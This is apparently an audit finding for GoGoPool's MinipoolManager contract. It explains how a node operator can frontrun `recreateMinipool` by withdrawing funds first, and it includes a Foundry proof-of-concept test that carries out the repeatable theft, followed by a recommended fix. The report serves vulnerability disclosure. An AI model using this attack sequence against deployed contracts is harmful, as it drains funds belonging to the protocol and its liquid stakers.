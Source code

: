 # Recreate Minipool can be frontrunned by node operator and lead to stealing funds

A minipool can be recreated by the Rialto multisig to reinitialize the stake while compounding the rewards using the `recreateMinipool` function:

https://github.com/code-423n4/2022-12-gogopool/blob/main/contracts/contract/MinipoolManager.sol#L444-L478

```solidity
function recreateMinipool(address nodeID) external whenNotPaused {
  int256 minipoolIndex = onlyValidMultisig(nodeID);
  requireValidStateTransition(minipoolIndex, MinipoolStatus.Prelaunch);
  Minipool memory mp = getMinipool(minipoolIndex);
  // Compound the avax plus rewards
  // NOTE Assumes a 1:1 nodeOp:liqStaker funds ratio
  uint256 compoundedAvaxNodeOpAmt = mp.avaxNodeOpAmt + mp.avaxNodeOpRewardAmt;
  setUint(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".avaxNodeOpAmt")), compoundedAvaxNodeOpAmt);
  setUint(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".avaxLiquidStakerAmt")), compoundedAvaxNodeOpAmt);
  ...  
```

The function checks that the minipool can be moved to the `Prelaunch` state, which means that the current state must be `Withdrawable` or
`Error`, but also `Finished` is a valid transition.

This action can then be frontrunned by the node operator to withdraw their funds before the compound happens. A node operator can call the `withdrawMinipoolFunds` function if the minipool is in the `Withdrawable` or `Error` state to remove their funds, while the call to `recreateMinipool` will still succeed since the minipool will then be in the `Finished` status.

## Impact

This represents a critical vulnerability since an attacker can steal funds from the protocol. After the first staking cycle of the minipool, the node operator can withdraw their funds while the minipool is successfully recreated in a state where it is ready to start a new staking cycle (`Prelaunch`) and the recorded amount is the compounded amount of the initial staked amount and the rewards of the last cycle.

The attacker just needs to have the required amount of `GGP` staked and the initial AVAX amount to trigger the first stake round. The attack can then be repeated to continuously steal protocol funds.

## PoC

The following test demonstrates the issue. After the first staking cycle, when the minipool is in the `Withdrawable` state, the node operator performs the call to the `withdrawMinipoolFunds` function before the `recreateMinipool` call is executed.

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity 0.8.17;

import "./utils/BaseTest.sol";
import {FixedPointMathLib} from "@rari-capital/solmate/src/utils/FixedPointMathLib.sol";

contract AuditTest is BaseTest {
	using FixedPointMathLib for uint256;
	address private nodeOp;

	function setUp() public override {
		super.setUp();
		nodeOp = getActorWithTokens("nodeOp", MAX_AMT, MAX_AMT);
	}

	function test_MinipoolManager_FrontrunRecreateMinipool() public {
		// Setup minipool and get to the withdrawable state by following the normal steps
		address liqStaker = getActorWithTokens("liqStaker", MAX_AMT, MAX_AMT);
		vm.prank(liqStaker);
		ggAVAX.depositAVAX{value: MAX_AMT}();

		uint256 duration = 2 weeks;
		uint256 depositAmt = 1000 ether;
		uint256 avaxAssignmentRequest = 1000 ether;
		uint256 validationAmt = depositAmt + avaxAssignmentRequest;

		vm.startPrank(nodeOp);

		ggp.approve(address(staking), MAX_AMT);
		staking.stakeGGP(200 ether);
		MinipoolManager.Minipool memory mp = createMinipool(depositAmt, avaxAssignmentRequest, duration);

		vm.stopPrank();

		vm.startPrank(address(rialto));

		minipoolMgr.claimAndInitiateStaking(mp.nodeID);
		bytes32 txID = keccak256("txid");
		minipoolMgr.recordStakingStart(mp.nodeID, txID, block.timestamp);

		skip(duration);

		uint256 rewards = 10 ether;
		deal(address(rialto), address(rialto).balance + rewards);
		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(mp.nodeID, block.timestamp, rewards);

		vm.stopPrank();

		// NodeOp frontruns the recreateMinipool call and withdraws the funds
		vm.prank(nodeOp);
		minipoolMgr.withdrawMinipoolFunds(mp.nodeID);

		vm.prank(address(rialto));
		minipoolMgr.recreateMinipool(mp.nodeID);

		// Now the minipool has been successfully recreated with the compounded staked amounts.
		MinipoolManager.Minipool memory updatedMp = minipoolMgr.getMinipool(mp.index);
		assertEq(updatedMp.status, uint256(MinipoolStatus.Prelaunch));

		uint256 halfRewards = rewards / 2;
		uint256 nodeCommissionFee = halfRewards.mulWadDown(dao.getMinipoolNodeCommissionFeePct());
		assertEq(updatedMp.avaxNodeOpAmt, depositAmt + halfRewards + nodeCommissionFee);
	}
}
```

## Recommendation

The `recreateMinipool` function should check that user funds have not been previously withdrawn before recreating and compounding the minipool. The valid transitions for this function should be from the `Withdrawable` or `Error` state, as these represent the states where the staking cycle has ended and node operator funds are still held by the protocol.
